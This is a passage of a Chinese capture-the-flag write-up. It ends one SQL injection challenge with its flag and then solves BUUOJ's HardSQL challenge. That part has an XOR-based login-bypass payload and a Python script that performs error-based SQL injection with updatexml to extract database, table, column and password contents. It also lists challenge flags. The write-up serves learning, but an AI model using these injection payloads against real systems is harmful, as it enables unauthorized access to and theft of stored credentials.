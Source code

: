 
原题flag都是小写，所以就没管它，不过[出题人笔记](https://www.smi1e.top/新春战疫公益赛-ezsqli-出题小记/)里边本来想考大小写的，我太垃圾，就没管了

flag{ec726349-d504-4a00-a288-7b72fbc33418}

 

 

 

### [[极客大挑战 2019\]HardSQL](https://buuoj.cn/challenges#[极客大挑战%202019]HardSQL)

考点：报错注入

先是fuzz，引号，注释没被过滤，|、&、空格、*这些都被过滤了

利用亦或符号进行注入：

```
username=1'^1%23&password=1
回显：
Login Success!!
```

应该可以盲注或者报错注入

我这里用的是报错注入

```
import requests
import re
 
host = 'http://7e5bdd7f-60ce-49fc-88cb-cf4e6ac51763.node3.buuoj.cn/check.php?'
#babystr = "select(database())"-->geek
#babystr = "select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))"-->H4rDsq1
#babystr = "select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))"-->id,username,password
#babystr = "select(left(group_concat(password),31))from(H4rDsq1)"
babystr = "select(right(group_concat(password),31))from(H4rDsq1)"
#--flag{9b788a2b-b307-4935-b7e7-0b'
#--2b-b307-4935-b7e7-0b853f26382a}
#flag{9b788a2b-b307-4935-b7e7-0b853f26382a}
payload = "username=1'^updatexml(1,concat(0x7e,({}),0x7e),1)%23&password=1".format(babystr)
r = requests.get(host+payload)
print(payload)
print(r.text)
```

注意点是updatexml这个报错注入只能显示32个字符，需要两次用left和right分别打

flag{9b788a2b-b307-4935-b7e7-0b853f26382a}